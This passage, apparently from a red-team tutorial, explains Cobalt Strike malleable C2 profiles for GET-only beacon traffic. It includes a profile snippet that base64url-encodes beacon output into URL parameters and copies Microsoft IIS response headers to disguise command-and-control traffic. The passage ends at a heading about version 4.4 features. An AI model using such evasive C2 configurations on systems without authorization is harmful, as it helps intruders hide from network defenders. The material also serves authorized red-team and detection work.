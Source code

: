 In terms of malleable c2 profile for GET-only the options that differ from a standard profile is that the HTTP Verb in the http-post section needs to be set to `set verb "GET"` as shown below. However the output also needs to be set to `base64url` and given a parameter to be sent in the URL. There are a few limitations of doing this as unless you are using a shortened URL/URI for your callback host, you are limited to 2,083 characters in a URL which minus the URL gives us on average 2000 chars to play with on each request.

```
http-post {
    
    set uri "/Search/";
    set verb "GET"; # Option required for GET-Only

    client {

        output {
            base64url; # Option required for GET-Only
            parameter "q";
        }
        
        
        id {
            base64url; # Option required for GET-Only
            parameter "form";
        }
    }

    server {

        header "Cache-Control" "private, max-age=0";
        header "Content-Type" "text/html; charset=utf-8";
        header "Vary" "Accept-Encoding";
        header "Server" "Microsoft-IIS/8.5";
        header "Connection" "close";
        

        output {
            netbios;
            print;
        }
    }
}
```

The HTTP-POST section serves as the beacon’s response to commands issued by the server and can actually be performed as a HTTP GET or HTTP POST request. In this case for a get-only profile the http verb is set to `GET`.

## New Features in Cobalt Strike 4.4

With all tooling things get updated, so the features below were introduced in CS 4.4 which both improve the profile and operating experience for operators. A few of the newer features that introduce additional options in the CS profile are:
